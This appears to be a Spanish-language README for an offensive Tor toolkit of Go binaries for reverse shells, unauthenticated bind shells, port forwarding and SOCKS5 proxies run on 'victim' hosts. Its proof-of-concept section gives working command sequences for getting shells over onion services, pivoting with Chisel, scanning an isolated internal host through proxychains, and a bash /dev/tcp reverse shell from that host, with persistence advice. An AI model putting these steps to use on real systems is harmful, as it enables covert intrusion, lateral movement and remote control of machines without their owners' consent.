





# Offensive Tor Toolkit
Se trata de un conjunto de utilidades que nos permitirán ejecutar tareas típicas de acceso, pivoting y persistencia haciendo uso de Tor.

En la gran mayoría de ocasiones, tendremos las siguientes necesidades:
* Instancia de Tor ejecutándose en la víctima.
* Pocas dependencias en la víctima.
* Rapidez, especialmente para hacer pivoting.

Una implementación con [Golang](https://golang.org/) cumple con estas necesidades, especialmente si usamos dos librerías que nos abstraerán de la complejidad de Tor:
- [ipsn/go-libtor](https://github.com/ipsn/go-libtor): Self-contained Tor from Go
- [cretz/bine](https://github.com/cretz/bine): Go API for using and controlling Tor

## Compilación
Para evitar inconvenientes, es recomendable hacer la compilación con docker:
```
$ docker build -t offensive-tor-toolkit .
$ docker run -v $(pwd)/dist/:/dist/ -it --rm offensive-tor-toolkit
$ ls -l dist/
total 598384
-rwxr-xr-x 1 root root  22760488 Sep 26 14:42 check-tor-connection
-rw-r--r-- 1 root root  30746627 Sep 26 14:42 check-tor-connection.b64
-rwxr-xr-x 1 root root  19960192 Sep 26 14:42 hidden-bind-shell
-rw-r--r-- 1 root root  26963771 Sep 26 14:42 hidden-bind-shell.b64
-rwxr-xr-x 1 root root  19819840 Sep 26 14:42 hidden-echo-server
-rw-r--r-- 1 root root  26774173 Sep 26 14:42 hidden-echo-server.b64
-rwxr-xr-x 1 root root  19964288 Sep 26 14:42 hidden-portforwarding
-rw-r--r-- 1 root root  26969303 Sep 26 14:42 hidden-portforwarding.b64
-rwxr-xr-x 1 root root  20023760 Sep 26 14:42 hidden-socks5
-rw-r--r-- 1 root root  27049643 Sep 26 14:42 hidden-socks5.b64
-rw-r--r-- 1 root root 233613307 Sep 26 14:42 offensive-tor-toolkit.tar.gz
-rwxr-xr-x 1 root root  19438648 Sep 26 14:42 reverse-shell-over-tor
-rw-r--r-- 1 root root  26259229 Sep 26 14:42 reverse-shell-over-tor.b64
-rwxr-xr-x 1 root root  19825800 Sep 26 14:42 reverse-shell-over-tor-simplehandler
-rw-r--r-- 1 root root  26782222 Sep 26 14:42 reverse-shell-over-tor-simplehandler.b64
-rwxr-xr-x 1 root root  19465568 Sep 26 14:42 tcp2tor-proxy
-rw-r--r-- 1 root root  26295594 Sep 26 14:42 tcp2tor-proxy.b64
```

## Uso
### `reverse-shell-over-tor.go`
Se conecta a un servicio oculto y entrega una shell.
```
$ ./reverse-shell-over-tor -h
Usage of reverse-shell-over-tor:

  -listener string
        Listener address. Format: <ONION_ADDR>:<PORT>
  -reverse-shell-program string
        Program to execute on reverse-shell (default "/bin/sh")
  -timeout int
        Timeout in seconds for Tor setup (default 180)
```

### `hidden-bind-shell.go`
Arranca un servicio oculto y entrega una shell a las conexiones entrantes.
```
$ ./hidden-bind-shell -h
Usage of hidden-bind-shell:

  -bind-shell-program string
        Program to execute on bind-shell (default "/bin/sh")
  -data-dir string
        Where Tor data is stored. If not defined, a directory is created
  -hiddensrvport int
        Tor hidden service port where bind-shell will be started (default 80)
  -timeout int
        Timeout in seconds for Tor setup (default 180)
```

### `hidden-portforwarding.go`
Permite la redirección de un puerto de un hidden service a un puerto alcanzable por la víctima.
```
$ ./hidden-portforwarding -h
Usage of hidden-portforwarding:

  -data-dir string
        Where Tor data is stored. If not defined, a directory is created
  -forward string
        Where the hidden service should forward packets (local port forwarding). Format: <FW_IP>:<FW_PORT>. This parameter is required
  -hidden-port int
        Port for onion service (default 80)
  -timeout int
        Timeout in seconds for Tor setup (default 180)

```

### `hidden-socks5.go`
Permite la crear un hidden service como proxy SOCKS5.
```
$ ./hidden-socks5 -h
Usage of hidden-socks5:

  -data-dir string
        Where Tor data is stored. If not defined, a directory is created
  -hidden-port int
        Port for onion service (default 80)
  -socks5-pass string
        SOCKS5 pass. Optional
  -socks5-user string
        SOCKS5 user. Optional
  -timeout int
        Timeout in seconds for Tor setup (default 180)
```
> NOTA: Se recomienda el uso de hidden-portforwarding.go junto con Chisel para conseguir el mismo resultado por motivos de estabilidad (se muestra en la PoC).

### `tcp2tor-proxy.go`
```
$ ./tcp2tor-proxy -h
Usage of tcp2tor-proxy:

  -listen string
        TCP Socket to listen on. Format: [<IP>]:<PORT> (default "127.0.0.1:60101")
  -onion-forward string
        Hidden service to proxy. Format: <ONION>:<PORT>. This parameter is required
  -timeout int
        Timeout in seconds for Tor setup (default 180)
```

## Prueba de concepto (PoC)
Tenemos el siguiente escenario:



Descripción del escenario:
* Vemos **Victim1** ofrece un servicio a Internet mientras que **Victim2** está en una red interna **sin acceso a Internet**.
* **Attacker** usa Tor para comunicarse con **Victim1**.

### Reverse Shell con handler como hidden service de Tor
Suponemos que ya podemos ejecutar comandos pero queremos algo más interactivo. Podemos ejecutar una reverse shell.
```
[attacker]$ grep '^HiddenService' /etc/tor/torrc
HiddenServiceDir /tmp/tortest
HiddenServicePort 4444 127.0.0.1:1234

[attacker]$ cat /tmp/tortest/hostname 
m5et..jyd.onion

[attacker]$ nc -lvnp 1234
```
```
[victim1]$ ./reverse-shell-over-tor -listener m5et..jyd.onion:4444
```
```
[attacker]$ nc -lvnp 1234
...
id
uid=48(apache) gid=48(apache) groups=48(apache)
```



### Bind Shell como hidden service de Tor
La reverse shell es muy cómoda para trabajar, pero solo nos permite una sesión simultánea. Para trabajar de una forma más cómoda, podemos ejecutar una bind shell que nos entregue una shell por cada conexión.
```
[victim1]$ ./hidden-bind-shell -data-dir /tmp/datadir/ -hiddensrvport 1234
...
Bind shell is listening on hgnzi6j3rqog6yew.onion:1234
```
```
[attacker]$ alias nctor='nc --proxy 127.0.0.1:9050 --proxy-type socks5'
[attacker]$ nctor -v hgnzi6j3rqog6yew.onion 1234
...
id
uid=48(apache) gid=48(apache) groups=48(apache)
```



> NOTA: Es importante usar el flag `-data-dir` para conservar la clave que representa la dirección onion.

> NOTA: La bind shell no tiene ningún tipo de autenticación, por lo que, en caso de querer dejar persistencia en la víctima, es mejor hacerlo con una reverse-shell.

### Port forwarding con Chisel para pivoting
Ahora queremos llegar a **Victim2** a través de **Victim1**. Para ello,  podríamos usar hidden-socks5. Sin embargo, por motivos de rendimiento, usaremos [Chisel](https://github.com/jpillora/chisel.git) sobre la utilidad hidden-portforwarding.
```
# Descargar última versión de Chisel
[victim1]$ wget https://github.com/jpillora/chisel/releases/download/v1.6.0/chisel_1.6.0_linux_amd64.gz
[victim1]$ gunzip chisel*.gz && mv chisel* chisel && chmod +x chisel

# Preparar servidor de chisel socks5 en el puerto 1111
[victim1]$ ./chisel server -p 1111 --socks5 &
```
```
# Redirigir puerto de hidden service al servidor de chisel
[victim1]$ ./hidden-portforwarding -data-dir /tmp/pf-datafir -forward 127.0.0.1:1111 -hidden-port 9001
...
Forwarding xa7ljkruk7lra4el.onion:9001 -> 127.0.0.1:1111
```

```
# Conectar con el cliente de Chisel
[attacker]$ alias chisel-client-tor='chisel client --proxy socks://127.0.0.1:9050'
[attacker]$ chisel-client-tor xa7ljkruk7lra4el.onion:9001 socks &

[attacker]$ ss -lntp | grep chisel
LISTEN 0      4096            127.0.0.1:1080       0.0.0.0:*    users:(("chisel",pid=3730,fd=3))
```

En este momento, tenemos un proxy SOCKS5 en el atacante que permitirá alcanzar la red interna:
```
[attacker]$ alias pc4='proxychains4 -f /etc/proxychains4.conf'
[attacker]$ cat /etc/proxychains4.conf
...
[ProxyList]
socks5  127.0.0.1 1080

[attacker]$ pc4 nmap -sT -Pn -n -sV -sC -p80,22,25,3000 victim2
...
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
...
25/tcp   open  smtp    Postfix smtpd
...
80/tcp   open  http    Apache httpd 2.4.43 (() PHP/5.4.16)
...
3000/tcp open  http    Mongoose httpd
...

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 230.37 seconds
```


### Reverse Shell sobre Tor desde víctima en red aislada
Desde **Victim2** no podemos conectarnos a Tor. El único modo es usando a **Victim1** como proxy. En este caso, usaremos un proxy a nivel TCP en **Victim1** que comunicará un puerto arbitrario con el hidden service:
```
[victim1]$ ./tcp2tor-proxy -listen 0.0.0.0:60101 -onion-forward m5et..jyd.onion:4444
...
Proxying 0.0.0.0:60101 -> m5et..jyd.onion:4444
```
```
[attacker]$ nc -lnvp 1234
```
```
[victim2]$ bash -i >& /dev/tcp/victim1/60101 0>&1
```
```
[attacker]$ nc -lnvp 1234 
...
id
uid=48(apache) gid=48(apache) groups=48(apache)
```

